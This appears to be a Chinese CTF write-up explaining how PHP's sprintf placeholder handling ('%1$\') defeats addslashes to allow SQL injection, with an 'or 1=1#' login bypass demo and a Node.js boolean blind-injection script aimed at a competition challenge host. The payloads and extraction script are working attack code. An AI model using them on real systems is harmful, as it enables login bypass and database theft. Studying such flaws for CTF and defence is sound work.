






### PHP SPRINTF格式化字符串漏洞

### sprintf() 函数

[w3school](https://www.w3school.com.cn/php/func_string_sprintf.asp)

#### 定义和用法

sprintf() 函数把格式化的字符串写入变量中

sprintf(format,arg1,arg2,arg3)

**arg1**、**arg2**、**arg++** 参数将被插入到主字符串中的百分号（%）符号处。该函数是逐步执行的。在第一个 % 符号处，插入 **arg1**，在第二个 % 符号处，插入 **arg2**，依此类推。

**注释：**如果 % 符号多于 *arg* 参数，则您必须使用占位符。占位符位于 `%` 符号之后，由数字和 `\$ `组成

#### 例子

- 1 使用格式

```php
<?php
$number = 123;
$txt = sprintf("%f",$number);
echo $txt; // 123.000000
?>
```

- 2 使用占位符

```php
<?php
$number = 123;
$txt = sprintf("带两位小数：%1\$.2f
<br>不带小数：%1\$u",$number);
echo $txt;
// 带有两位小数：123.00
// 不带小数：123
?>
```

由于占位符位于 `%` 符号之后，由数字和 `\$ `组成，如果%后面出现一个\，那么PHP会把\当做一个格式化字符的类型而吃掉\，最后`%\`(或者`%1$\`)都会被置空，其实就是**%后的一个字符(除了%)都会被当作字符型类型而被吃掉**，也就是被当做一个类型进行匹配后面的变量，比如%c就匹配ASCII，%d匹配整形

如下图所示，在浏览器上运行此php代码，当占位符写成`%1$\`那么`%1$\`会被置空，则`.2f`会变成普通的字符输出



那么通过这个漏洞主要是能够构造语句闭合单引号，以达到SQL注入的目的

### SQL

```php
<?php
  $username = addslashes("admin%1$' or 1=1#");
  $password = "123456";
  $sql = "select * from user where username='%s'";
  $sql = sprintf($sql,$username);
  $sql = "$sql and password = '%s'" ;
  $sql = sprintf($sql,$password);
  echo $sql;
?>
```




运行结果为

```sql
select * from user where username='admin' or 1=1#' and password = '123456'
```

此时，`%1$\`被置空，剩下`' or 1=1 #` 闭合admin前面的单引号#后面的则被注释，在登录的时候，就是一个万能密码，可以直接登入系统

### 题目：“迎圣诞，拿大奖”活动赛题

看到登录框先试一试弱口令，测试得知用户名为admin，对username 和 password 开始注入，耗费大量时间，未找到注入点，查阅相关资料，以为有waf，则使用burp跑了一遍waf字典，发现%会出现waring，具体结果如下所示



发现存在sprintf漏洞，于是查阅相关资料

构造username=`admin%1$\' or 1=1#` 和 `admin%1$\' or 1=2#`





可以发现当1=1时，页面回显password error! ，当1=2时页面回显username error!，所以存在布尔注入

此时由开始写过得[SQL-LABS GET型布尔盲注脚本(node)](https://blog.csdn.net/weixin_45146120/article/details/100529826)重新修改一下代码如下

```javascript
const axios = require('axios')
const querystring = require('querystring')
const readline = require('readline')
const rl = readline.createInterface({
  input: process.stdin,
  output: process.stdout
})
async function inject(params) {
  console.log('[+]payload: ' + params.username)
  let response = await axios({
    url:
      'http://3aa979dedd07412abfde94cebeb093bddbd33708a0be4aa4.changame.ichunqiu.com/',
    method: 'post',
    data: querystring.stringify(params),
    headrs: {
      'Content-type': 'application/x-www-form-urlencoded'
    }
  })
  const regex = /password error!/
  if (regex.test(response.data)) {
    return parseInt(params.username.match(/\&\d+/)[0].replace(/\D+/, ''))
  } else {
    return 0
  }
}
async function main() {
  const sql = await new Promise((resolve, reject) => {
    rl.on('line', sql => {
      resolve(sql)
      rl.close()
    })
  })
  let flag = true
  let index = 1
  let str = ''
  let params = {
    username: '',
    password: 'admin'
  }
  while (flag) {
    let sum = 0
    for (let i = 0; i < 8; i++) {
      params.username = `admin%1$\' and ascii(substr((${sql}),${index},1))&${Math.pow(
        2,
        i
      )} = ${Math.pow(2, i)}#`
      sum += await inject(params)
    }
    if (sum !== 0) {
      str += String.fromCharCode(sum)
      index++
    } else {
      flag = false
    }
  }
  console.log('\n[+]Inject_Result:' + sql + ' = ' + str)
}
main()
```

运行结果



